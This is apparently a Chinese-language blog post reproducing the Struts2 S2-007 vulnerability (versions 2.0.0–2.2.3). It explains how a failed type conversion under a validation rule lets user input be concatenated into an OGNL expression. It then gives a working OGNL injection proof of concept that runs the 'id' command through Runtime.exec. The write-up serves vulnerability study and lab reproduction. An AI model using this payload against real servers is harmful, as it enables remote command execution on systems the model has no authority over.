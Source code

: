 ```yaml
---
title: S2-007 远程代码执行漏洞
date: 2020-07-29 21:45:51
categories: 漏洞复现
tags: struts2
---
```


#### 背景

当配置了验证规则 `-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。

影响版本：

> ​	2.0.0 - 2.2.3

<!--more-->

#### 复现过程

例如有 UserAction：

```java
(...)
public class UserAction extends ActionSupport {
	private Integer age;
	private String name;
	private String email;

(...)
```

然后配置有 UserAction-validation.xml：

```java
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
	"-//OpenSymphony Group//XWork Validator 1.0//EN"
	"http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
	<field name="age">
		<field-validator type="int">
			<param name="min">1</param>
			<param name="max">150</param>
		</field-validator>
	</field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

POC:

```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

![](http://qn.laohuan.xin/2020-07-29_22-03-52.png)

#### 参考文章

<http://github.com/vulhub/vulhub/blob/master/struts2/s2-007/README.zh-cn.md/>